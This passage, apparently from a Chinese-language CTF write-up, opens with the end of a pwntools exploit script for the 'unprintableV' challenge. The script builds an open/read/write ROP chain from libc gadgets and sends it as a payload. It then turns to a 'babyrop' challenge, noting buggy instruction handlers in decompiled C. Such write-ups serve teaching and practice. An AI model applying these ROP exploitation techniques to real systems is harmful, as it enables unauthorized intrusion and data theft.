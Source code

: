 ```python
	p_rdx_rsi = libc.address+0x00000000001306d9
	rop = p64(p_rdi)+p64(elf_base+0x10)+p64(p_rsi)+p64(0)+p64(libc.symbols["open"])
	rop += p64(p_rdi)+p64(1)+p64(p_rdx_rsi)+p64(0x100)+p64(elf_base-0x70+0x300)+p64(libc.symbols["read"])
	rop += p64(p_rdi)+p64(2)+p64(p_rdx_rsi)+p64(0x100)+p64(elf_base-0x70+0x300)+p64(libc.symbols["write"])
	payload += rop
	p.send(payload)
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
	# libc = ELF("./x64_libc.so.6",checksec=False)
	# elf = ELF("./unprintableV",checksec=False)
	main(args['REMOTE'])
```

## babyrop

`libc2.23`

题目有个简单的指令集，有个简单的栈结构(好像是这样

```c
00000000 stack           struc ; (sizeof=0x14, mappedto_6)
00000000 rsp_            dq ?
00000008 rbp_            dq ?
00000010 len             dd ?
00000014 stack           ends
```

然后就是指令集里有几个函数有`bug`

```c
  case '(':
        ++*idx;
        if ( !(unsigned int)clear_stack(v7, v6) )// !!!
          exit(0);
        return result;
```

```c
  case '4':
        ++*idx;
        sub_E17(v7);                            // !
        break;
```

```c
 case '!':
        sub_BB9(v7);                            // !
        ++*idx;
        break;
```
